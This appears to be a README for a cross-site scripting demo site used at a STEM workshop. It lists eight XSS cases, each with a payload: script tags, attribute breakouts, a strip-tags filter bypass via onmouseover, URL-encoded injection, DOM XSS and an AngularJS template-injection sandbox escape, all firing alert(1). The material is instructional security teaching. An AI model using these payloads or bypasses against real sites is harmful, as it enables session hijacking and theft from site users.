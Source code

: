 # XSS-Demo

Live version: https://xss.khaledibnalwalid.com/

Some popular cases i explained at STEM workshop

**Case 1 [ Simple XSS ]**

Payload : <script>alert(1)</script>

**Case 2 [ JavaScript injection ]**

Payload : “-alert(1)-”

**Case 3 [ XSS Inside html attribute ]**

Payload : “><script>alert(1)</script>

**Case 4 [ XSS Inside html attribute ( Bypassing strip tags filter ) ]**

Payload : “ onmouseover=“alert(1)

**Case 5 [ Bypassing tags matching ( with URL encoding ) ]**

Payload : %22%3E%3Cscript%3Ealert%281%29%3C%2fscript%3E

**Case 6 [ Simple DOM-XSS ]**

Payload : <script>alert(1)</script>

**Case 7 [ DOM-XSS ( Client side template injection with AngularJS ) ]**

Payload : {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}

Angular payloads URL : https://portswigger.net/blog/xss-without-html-client-side-template-injection-with-angularjs

**Case 8 [ JavaScript injection ( Escape JS ) ]**

Payloads : \”-alert(1)//

